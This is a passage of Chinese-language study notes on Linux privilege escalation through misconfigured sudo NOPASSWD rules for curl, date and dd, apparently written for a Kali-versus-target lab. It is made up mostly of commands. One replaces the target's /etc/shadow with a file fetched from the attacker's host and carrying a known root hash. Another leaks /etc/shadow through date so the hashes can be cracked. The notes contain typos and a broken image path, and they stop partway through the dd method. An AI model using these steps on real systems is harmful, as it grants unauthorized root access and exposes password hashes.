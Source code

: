 这是在kali中的：

```
(root) NOPASSWD:/usr/bin/curl
```

zx

```
mkpasswd -m sha-512 123456
sudo cat /etc/shadow | grep root

```

将这个语句保存下来。

```
sudo php -S 0:80
```

靶机中的：

```
sdo curl http://kali的地址/将语句保存下来的文件。 -o /etc/shadow
```



##### 11,date

```
(root) NOPASSWD:/usr/bin/date
```

zx

```
sudo date -f /etc/shadow
```

会将shadow中的内容泄露出来.

然后破解。



##### 12，dd

```
(root) NOPASSWD:/usr/bin/dd
```

zx

```
mkpasswd -m sha-512 123456

```

![1711099166069](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711099166069.png)

将我们生成的hash与我们自己的shadow呼唤。

互换完成后的那个就是我们要植入的语句。
